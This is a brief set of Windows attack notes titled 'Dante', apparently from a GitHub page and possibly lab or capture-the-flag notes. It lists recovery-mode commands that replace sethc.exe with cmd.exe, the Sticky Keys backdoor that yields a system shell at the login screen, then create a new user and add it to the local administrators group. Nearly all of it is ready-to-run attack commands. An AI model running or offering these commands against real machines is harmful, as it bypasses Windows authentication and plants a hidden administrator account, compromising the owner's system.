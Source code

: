 # Dante

Recovery mode
Copy c:\Windows\system32\sethc.exe c:\
Copy /y c:\Windows\System32\Cmd.exe C:\Windows\System32\sethc.exe

net user User /add
net localgroup administrators User /add
